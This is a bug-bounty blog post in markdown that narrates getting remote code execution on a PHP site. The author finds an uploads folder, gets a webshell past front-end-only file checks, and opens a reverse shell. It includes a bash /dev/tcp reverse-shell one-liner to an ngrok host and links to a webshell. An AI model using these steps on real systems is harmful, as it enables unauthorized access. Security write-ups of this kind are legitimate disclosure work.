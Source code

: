 ```yaml
---
title: "Remote Code Execution via File Upload"
layout: post
date: 2021-04-07 12:00
categories: blog
---
```


Obtain Remote Code Execution due to Unrestricted File Upload.

## Introduction

Remote Code Execution (RCE) is a critical vulnerability that allows unauthorized individuals to access and modify a computer or server from a remote location. This capability enables attackers to run arbitrary malicious software, also known as malware, on the targeted system.

## Identifying the Target

During the reconnaissance phase, I utilized Google dorks to find a target that had a responsible disclosure program. For the purpose of this article, let's refer to the target website as abc.com. Further investigation revealed that the target company owned seven subdomains, all integrated with the parent domain abc.com and offering various functionalities.

## Exploiting PHP-Based Website

Since the target website was predominantly built using PHP, I focused on finding a vulnerability that would allow me to upload a PHP file and gain a reverse shell. Interestingly, I discovered that the website had a career page where applicants could upload their resumes in PDF format.

### Directory Brute-Forcing

To begin, I conducted a directory brute-forcing operation using the dirsearch tool. This enabled me to identify directories on the website and gain a better understanding of its structure.

![Directory Brute-Forcing](/assets/images/blogs/RCE1/1.webp)

## Discovering Uploaded Files

During my investigation, I came across an "uploads" folder that contained all the documents uploaded by individuals applying for jobs through the career page.

![Index of Uploaded Files](/assets/images/blogs/RCE1/2.webp)

## Exploiting the CV Upload Functionality

I proceeded to the career page URL (https://www.abc.com/careers.php) to examine the CV upload functionality. However, I found that the application only performed file extension validation at the front end, leaving room for potential exploitation.

![Frontend File Extension Validation](/assets/images/blogs/RCE1/3.webp)

## Uploading the PHP Webshell

Taking advantage of the lax file extension validation, I downloaded a PHP webshell and successfully uploaded it.

![PHP Webshell Upload](/assets/images/blogs/RCE1/4.webp)

## Activating the Webshell

To trigger the PHP webshell, I accessed the location where the shell was uploaded.

![Webshell Activation](/assets/images/blogs/RCE1/6.webp)

## Expanding Control with Reverse Shell

At this point, the webshell was functioning correctly. To establish a reverse shell, I either uploaded a reverse shell or used the following command in the web shell console to access the system via port forwarding using ngrok services.

## PHP Webshell Repository

For reference, you can find the PHP webshell I used in this demonstration on my GitHub repository: [GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Obtaining a Reverse Shell

To acquire a reverse shell, the following steps were performed:

1. Enabled port forwarding.
2. Listened to the forwarded port using Netcat.

![Port Forwarding Setup with ngrok](/assets/images/blogs/RCE1/7.webp)

With the completion of port forwarding setup, I executed the following command in the webshell input field:

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

![Executing Reverse Connection via Bash](/assets/images/blogs/RCE1/8.webp)

As a result, a successful reverse shell connection was established.

![Successful Reverse Shell](/assets/images/blogs/RCE1/9.webp)

## Conclusion

In this article, I demonstrated how an unrestricted file upload vulnerability on a PHP-based website could lead to Remote Code Execution (RCE). By exploiting the website's lax file extension validation, I successfully uploaded a PHP webshell and obtained a reverse shell, ultimately gaining unauthorized access to the system. Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).